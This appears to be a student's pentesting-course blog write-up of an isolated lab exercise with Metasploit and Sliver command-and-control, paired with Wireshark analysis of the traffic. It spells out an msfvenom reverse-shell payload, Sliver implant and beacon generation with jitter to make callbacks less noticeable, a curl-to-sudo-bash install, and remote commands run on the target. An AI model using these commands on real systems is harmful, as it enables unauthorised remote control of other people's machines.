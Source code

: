 +++
title = "H6 - C2 with sliver and metasploit"
date = "2025-10-02"
categories = ["pentesting-course"]
+++

---

### a) Sniffing the venom

#### Establishing the connection and packet capture

Like usual, I check to make sure the virtual machines are off the internet and communicate with each other fine. Nothing has changed in the setup so everything is working a ok.

I open up wireshark and start capturing traffic.

I am going to use the same payload I used in H5 which was as follows:
`msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e generic/none -f elf` and remembering to open a port with `sudo ufw allow 4444/tcp`. 

Then I launch `msfconsole` and set all the parameters to match the payload and start the listening session with `exploit`. 

To establish the connection, I go to the target machine (ms2 vm) and
run the program. 

![Msfconsole](/tuukkaani-blog/img/h6/msfconsole.png)

#### Going through packet captures

Checking into wireshark and stopping the capture, I filter with
`tcp.port==4444` as that is the port I decided to use. With that I can see the captured traffic between the host and target:

![Wirkeshark msfvenom](/tuukkaani-blog/img/h6/wireshark_venom.png)

The port 4444 here raises some alarms as it is commonly used by metasploit for reverse shell connections.

---

### b) Creating a http connection with sliver

#### Sliver installation

Firstly, I'm installing sliver on my kali machine. The sliver github provides a single liner install `curl https://sliver.sh/install|sudo bash`. Trust me bro. During the installation, I was not clearly prompted for password at first, but if it seems to be stuck for you after running the one liner, just hit enter couple times and it should prompt you. After which running `sliver` should open up the program. [(Sliver Github 2025.)](https://github.com/BishopFox/sliver)

![Sliver](/tuukkaani-blog/img/h6/sliver.png)

And it does! Ain't it like giga cool (ofhell).

Note: it is october 2. 2025 and this is the v1.5.43 instead of the newer, but unfinished 1.6 build, so if in the future some of the functionality here is due to change.

#### Establishing connection with sliver

So I setup wireshark in the background to capture packets. I am capturing *eth0* which is the interface I use for offline testing while *eth1* uses my actual eth to connect to the internet. This is the same setup as the previous section. Just wanted to mention it here.

![Ip a](/tuukkaani-blog/img/h6/ipa.png)

Now, I familiarize myself with sliver by going over their provided getting started tutorial, which if I remember correctly does what I want to achieve here: establishing a http connection between the host and target.

So first I need to generate our implant which is the name sliver uses for malicious code run on the target machine [(Sliver 2025. Architecture.)](https://sliver.sh/docs?name=Architecture). 

I used the following command to generate the implant:
`generate -b 10.10.10.10 --os linux --skip-symbols --debug`

![Implant](/tuukkaani-blog/img/h6/implant.png)

Next I ran the implant on the target machine, which is Debian13 machine running in the same network.

![Implant at target](/tuukkaani-blog/img/h6/implant_target.png)

Using `sessions` we can see that our session has been established to the target machine:

![Sliver session](/tuukkaani-blog/img/h6/session.png)

Lastly I run `use` and select the proper implant and `pwd` to see I am actually in the target machine:

![Target](/tuukkaani-blog/img/h6/target.png)


[(Sliver 2025. Tutorials.)](https://sliver.sh/tutorials)


---

### c) Sniffing the sliver (*hihihihihihi*)

In the very short time I had the connection, I already have quite the wall in wireshark to look at:

![Wireshark sliver](/tuukkaani-blog/img/h6/wireshark_sliver.png)

A lot of weird GET requests in fast intervals. Just the amount from a single address is quite concerning and the requests themselves don't help. 

---

### d) Modifing the connection in sliver.

So it would be beneficial if we could at least limit the calling home to be less... obsessive. Luckily there is a way to do just that. In the [sliver.sh's beacons vs sessions tutorial](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions) some of these methods are used, and that is what I am going to be doing as well.

The tutorial mentions sessions being a single constantly maintained TCP connection, while beacons can call home every so often. 
[(Sliver 2025. Beacons vs Sessions.)](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)

So firstly we will create a new beacon with this in mind:

`generate beacon -b 10.10.10.10 --os linux -j 5 -S 15 --skip-symbols --debug --save cockball_the_movie_starring_ben_stiller`

I decided to make the executable more... *executable* by giving it an enticing name. Maybe more importantly, it was given the flags `-j 5` and `-S 15`. What I could gather from the documentation [sliver getting started.](https://sliver.sh/docs?name=Getting%20Started), -S stands for how often the beacon should callback in seconds. -j stands for jitter and adds a random delay in seconds to the callback. [(Sliver 2025. Getting Started.)](https://sliver.sh/docs?name=Getting%20Started)

So time to test it out. I run the executable on the target machine:

![Target](/tuukkaani-blog/img/h6/target2.png)

Oh no! It seems you can't trust anything these days!!! Oh well. We get a callback from the beacon:

![Beacons](/tuukkaani-blog/img/h6/beacons.png)

Here we can see the last check-in and the next one. Time to check out what wireshark has in store for us!

![L + n00b](/tuukkaani-blog/img/h6/dummy.png)

Oopsie. Well I guess I'll have to let it run for couple of minutes.

![Wireshark sliver 2](/tuukkaani-blog/img/h6/wireshark_sliver2.png)

Now the calls are much less frequent and come at varying times.

[(Sliver 2025. Beacons vs Sessions.)](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)

---


### e) Using sliver's different functionalities.

I begin by using the beacon with `use` and finishing off the name with tab:

![Beacon use](/tuukkaani-blog/img/h6/tab.png)

With `help` I can start checking out what kind of things I am able to do. Lets see if I can make the user's wallpaper to be a picture of Ben Stiller.

So I first need to get the picture to the target machine using the command `upload ben.png /home/user/Pictures/ben.png` which uploads file ben.png from our host to the target's Pictures directory:

![Ben](/tuukkaani-blog/img/h6/ben.png)
Image can be found here: [(Benjamin Lee 2015.)](https://www.theguardian.com/film/filmblog/2015/aug/03/zoolander-2-teaser-trailer-ben-stiller)

Next I need to change the Ben to be the wallpaper, I know the target uses gnome, so with a quick google I found a AskUbuntu post that gives me the command needed [(AskUbuntu 2011.)](https://askubuntu.com/questions/66914/how-to-change-desktop-background-from-command-line-in-unity):

`execute gsettings set org.gnome.desktop.background picture-uri file:///home/user/Pictures/ben.png`

Now, did my magnificent plan work? One could probably use sliver to take a screenshot, but found it only prints black squares on my vm, which might have something to do with displays etc. So here is a manual screenshot of the target:

![Oh boy](/tuukkaani-blog/img/h6/ohboy.png)

Now look at that! Amazing, truly!

---


### Sources

All the assignments this page is based on can be found at [Tero Karvinen](https://terokarvinen.com/tunkeutumistestaus/)

[Sliver Github 2025.](https://github.com/BishopFox/sliver)

[Sliver 2025. Tutorials.](https://sliver.sh/tutorials)

[Sliver 2025. Architecture.](https://sliver.sh/docs?name=Architecture)

[Sliver 2025. Beacons vs Sessions.](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)
[Sliver 2025. Getting Started.](https://sliver.sh/docs?name=Getting%20Started)

[Benjamin Lee 2015. Long catwalk home: can Ben Stiller make audiences care about Zoolander 2?](https://www.theguardian.com/film/filmblog/2015/aug/03/zoolander-2-teaser-trailer-ben-stiller)
[AskUbuntu 2011. How to change desktop background from command line in Unity](https://askubuntu.com/questions/66914/how-to-change-desktop-background-from-command-line-in-unity)
